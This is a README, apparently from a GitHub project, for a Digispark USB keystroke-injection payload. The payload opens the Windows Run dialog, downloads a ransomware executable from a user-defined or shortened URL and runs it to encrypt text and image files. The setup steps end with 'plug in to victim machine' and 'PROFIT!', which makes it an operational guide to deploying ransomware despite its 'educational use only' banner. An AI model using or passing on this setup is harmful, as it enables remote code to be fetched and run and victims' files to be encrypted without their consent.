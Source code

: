 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Ransomware
For more details, see our [documentations](/documentation/conops_ransomware.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the ransomware executable, from user defined location.   
- Executes it, and the executable encrypts .txt, .jpg, .jpeg, .png files in the directory, it is downloaded to.

Check out more detailed usage of the [Ransomware in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware)

## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `DownloadFile('URL_WHERE_TO_DOWNLOAD'`    
	**NOTE: As is (`https://tinyurl.com/5e8yp8mf`), it downloads it from [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Python%20app)**   
	
	- Path, where to download and what to execute (both must be the same):
		- `$env:UserProfile/PATH_TO_THE/SOMETHING.exe\\\`
	- Working Dir:
		- `$env:UserProfile//PATH_TO_THE\\\`
- Upload to Digispark
- Plug in to victim machine
- **PROFIT!**

---
**Note:**  
Folder:
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_ransomware/old)
    - Older draft to initially getting the ransomware with Digispark to work